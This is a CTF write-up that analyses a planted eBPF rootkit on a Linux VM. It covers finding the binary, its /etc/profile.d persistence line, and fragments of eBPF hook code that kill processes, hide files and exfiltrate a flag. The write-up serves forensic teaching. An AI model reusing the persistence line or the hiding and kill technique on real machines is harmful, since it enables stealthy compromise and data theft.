

# Breizh CTF - Write-up - CTF A/D Tampered (2 parts) 


## Part 1

```
As part of this Attack/Defense CTF, the administrators assigned us virtual machines hosting various services.
One of these machines piqued our interest because we were unable to access the flag. We suspect that a team may have compromised the virtual machine assigned to us before the start of the CTF.
We'd like your help in investigating the matter.

Our first priority is to detect the malware and understand how it persists each time the virtual machine is restarted.

The flag format is: `BZHCTF{path_of_malware|path_of_file_used_for_persistence}`.
Example: `BZHCTF{/var/superfile1.txt|/var/superfile2.txt}`

Difficulty : Easy
sha256sum src/vm-tampered.ova : `ce4932eb4478241215873161d535d66f61848295ade3be1b364c8ed1eab35941`
vm identifiers: user:user
```

For this challenge we have a virtual machine OVA file which we could import on virtualbox or vmware. We could boot the machine but for the moment we only need to mount the filesystem to analyse it.

We could extract the `.vmdk` file of the  OVA file with tar. To mount it :
```sh
$ modprobe nbd
$ qemu-nbd -c /dev/nbd0 ./bzhctf-disk001.vmdk
$ mount -o ro,noload /dev/nbd0p2 /mnt
$ ls /mnt
bin  boot  cdrom  dev  etc  flag.txt  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  swap.img  sys  tmp  usr  var
```

We could see the flag.txt file which is use to store the current flag for the other teams of the CTF A/D. This is the file which can't be read when the vm is running.
We need to find a malware and a persistence on the disk. This is an ubuntu machine, we could start by analyse the log files. Reflex is to view the `auth.log` file :


This file contains the commands launched with sudo. We could see a chmod call was made to set SUID bit on the file `/etc/pki/bootstrap`. Looks weird, SUID bit allows to run a file with the owner file user, in this case `root` user.

We could `strings` the file to quickly find if it's legit or not.


There are many strings related to libpf/eBPF which is a modern linux technology to interact with kernel and which is used by some malwares. Some strings confirms this file has no reason to be there. We could grep for the path of the suspicious file to see if we could find a persistence to execute it.

```
$ sudo grep -r "/etc/pki/bootstrap" *
etc/profile.d/01-locale-fix.sh:/etc/pki/bootstrap 1> /dev/null 2> /dev/null &
$ cat etc/profile.d/01-locale-fix.sh
# Make sure the locale variables are set to valid values.
eval $(/usr/bin/locale-check C.UTF-8)
/etc/pki/bootstrap 1> /dev/null 2> /dev/null &
```

Why `/etc/profile.d`, it a folder used for persistence ? The response is yes : https://unix.stackexchange.com/questions/64258/what-do-the-scripts-in-etc-profile-d-do

> Those files are specific to an application, but are sourced at shell startup, not when the application starts.

So when a shell is started the files in the `/etc/profile.d` folder are executed. It is used by the attacker to execute the malware `/etc/pki/bootstrap` which gives the first flag :
`BZHCTF{/etc/pki/bootstrap|/etc/profile.d/01-locale-fix.sh}`

## Part 2

```
Great you've found the malware, now we want to know what it does. Here's what you need to find out:
- (1) Find the commands that are forbidden by the malware
- (2) Find the command that disables the malware
- (3) Find the secret command that triggers the last malicious behavior
- (4) Find one of the filename that the malware checks to prevent it from being read. (other than flag.txt from the description)

The flag format is: `BZHCTF{(1)|(2)|(3)|(4)}`.
For forbidden commands, separate them by commas, in alphabetical order.

Here's an example of a flag: `BZHCTF{id,whoami|grep|strings|foobar}`

sha256sum src/vm-tampered.ova : `ce4932eb4478241215873161d535d66f61848295ade3be1b364c8ed1eab35941`
VM credentials: `user:user`
```

Now we have to dig with the malware and know what does he do. Let's use IDA to reverse it because it's an ELF.



There are some intersting strings right there. We could deduce there is a kind of a hook on some syscalls of the kernel with eBPF technology. We know the user of the vm can't read `/flag.txt` so it could be related to `openat` hook because it's the syscall to open a file.

eBPF program are also ELF but we currently don't have the eBPF ELF, it is embeded in the program which load it for the kernel and do the interface from userland aspect, like callback of parse informations from the eBPF output.

To do this it uses `ring_buffer__new` and a callback fonction :


> Note : We have all the symbols for the binary, keep this in mind it's pretty useful


The fonction handler_event is very interesting, it transmit a file content to a server and use the command zcat before and after transmit it ?

We could make a guess this is the command to disable/activate the malware ? Let's keep this.

To extract the eBPF file we could use binwalk :
```
$ binwalk -e --dd=".*" bootstrap

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 64-bit LSB executable, AMD x86-64, version 1 (GNU/Linux)
269656        0x41D58         bix header, header size: 64 bytes, header CRC: 0x0, created: 1970-02-24 14:51:20, image size: 1216955152 bytes, Data Address: 0xE9F7FEFF, Entry Point: 0xFF4883C8, data CRC: 0xFFC36666, CPU: Nios-II, image name: ""
270072        0x41EF8         bix header, header size: 64 bytes, header CRC: 0x0, created: 1970-02-24 14:51:20, image size: 1216955152 bytes, Data Address: 0xE9F7FEFF, Entry Point: 0xFF4883C8, data CRC: 0xFFC36666, CPU: Nios-II, image name: ""
1052928       0x101100        ELF, 64-bit LSB relocatable, version 1 (SYSV)
```


Using IDA to reverse it it's unreadable because the instructions are eBPF bytecode but we could have some informations with symbols of the functions names we found before.


We could find three commands ! That's interesting for the flag.

Another thing to see is the strings in the base binary because it's compiled with symbols :
```c
$ strings ./etc/pki/bootstrap  | grep -A 30 "handle_execve(struct"
int handle_execve(struct trace_event_raw_sys_enter *ctx)
    u64 pid = bpf_get_current_pid_tgid() >> 32;
    bpf_probe_read_user(&check_command, 100, ctx->args[0]);
    if ( (cmp_chk_1 || cmp_chk_2) && !k){
      k = k ^ 1;
    e = bpf_ringbuf_reserve(&rb, sizeof(*e), 0);
    if (e)
        e->trig = es;
        bpf_ringbuf_submit(e, 0);
      bpf_send_signal(9);
```

We could leak a part of the source code !
Here is for some fonctions :
```c
int handle_openat_enter(struct trace_event_raw_sys_enter *ctx)
    size_t pid_tgid = bpf_get_current_pid_tgid();
0:2:1
    bpf_probe_read_user(&check_filename, 100, ctx->args[1]);
    if (res_1 == -1 && res_2 == -1){
    unsigned int zero = 0;
    bpf_map_update_elem(&map_fds, &pid_tgid, &zero, BPF_ANY);
/**/
int handle_openat_exit(struct trace_event_raw_sys_exit *ctx)
    unsigned int* check = bpf_map_lookup_elem(&map_fds, &pid_tgid);
    if (check == 0) {
    unsigned int fd = (unsigned int)ctx->ret;
    bpf_map_update_elem(&map_fds, &pid_tgid, &fd, BPF_ANY);
/**/
int handle_read_enter(struct trace_event_raw_sys_enter *ctx)
  if (!k){
    unsigned int* pfd = bpf_map_lookup_elem(&map_fds, &pid_tgid);
    if (pfd == 0) {
0:2:0
    unsigned int fd = (unsigned int)ctx->args[0];
    unsigned int map_fd = *pfd;
    if (map_fd != fd) {
    bpf_send_signal(9);
```

We could see there are filename, filedescriptor, etc... which are checked and `bpf_send_signal(9)`. `9` is related to SIGSEGV signal (which kill a process). That's probably the way used by the attacker to block commands or file read.

The next thing we can do is reverse/decompile the bytecode eBPF. To do it I only found one buggy plugin :  https://github.com/Nalen98/eBPF-for-Ghidra . It's going to confirm some informations. To use it we need to download an older version of Ghidra (I used 10.2.2 in my case).

The ouput is very bad, it doesn't work well but we could see "/usr/bin/zcat" is checked to set a variable with a xor 1 in the `handle_execve` fonction. It could act like a switch context like we saw before.


For the openat fonction we could see the "flag.txt" is checked but also the "bootstrap" string, that's the fourth part.

Let's confirm all our hypotheses using the virtual machine :


Confirms `ps` and `find` are forbidden by the malware


The files bootstrap and flag.txt are impossible to read


The command zcat act like a switch context to desactivate the rootkit. We could read the flag file using it.


Now for the `ls` command which we see in the strings before we could use `tcpdump` to see if when executed it interacts whith the IP extracted before in the base binary, it contact it to exfiltrate the flag (see the screenshot in red).

Let's compile all the informations in the flag : 

`BZHCTF{find,ps|zcat|ls|bootstrap}`